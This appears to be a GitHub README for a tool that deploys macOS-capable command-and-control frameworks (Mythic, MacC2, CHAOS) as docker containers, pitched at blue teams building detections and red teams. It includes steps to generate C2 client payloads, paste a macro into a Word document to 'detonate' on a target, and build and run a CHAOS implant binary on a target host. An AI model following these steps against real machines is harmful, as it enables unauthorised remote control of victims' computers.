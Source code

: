 # C2 Cradle
Tool to download and macOS capable command &amp; control servers as docker containers from a list of options. This can be useful to blue teamers who want to quickly stand up commonly used cross platform C2 frameworks for building detections. This may also be helpful for red teams looking to automate C2 setup.




**Available C2 servers:**

1. **Mythic C2**:

Since Mythic already has a docker image included, I simply run that image. No additional changes were made.

2. **MacC2**:

MacC2 also has its own docker image included. I made a small change to automate the self signed ssl cert steps, so this change is included here in this repo. 

Steps:

1. During set up enter the MacC2 IP address or hostname that you want the MacC2 client to connect to. This will auto generate the client payload using that address/hostname.

2. The MacC2 server will start on port 443 once done.

3. cd to /var/lib/docker/volumes/macc2/_data in order to view the macro.txt file as well as the MacC2_client.py payload.

4. Copy the MacC2_client.py over to the target machine and execute. Or, copy the macro.txt over into a Word doc and detonate on the target host.



8. **CHAOS C2**:

After the server is stood up as a docker container, take the following steps:

1. Start a listener on the server:
> listen address=[IP of server] port=[port]

2. You will need to locally (outside of the container) download CHAOS C2 and generate the payload:

> git clone https://github.com/tiagorlampert/CHAOS && cd CHAOS/cmd/chaos && go build

> cd ../..

> cp cmd/chaos/chaos .

> ./chaos

> generate address=[IP of C2 server] port=[C2 server port] --[platform]

> binary will be dropped in the build directory with a random name

> execute the binary on the target host and the C2 server will show a C2 connection

3. Docker maps the chaosc2 directory (where the server is running) to the /var/lib/docker/volumes/chaosc2/_data directory on the host. 
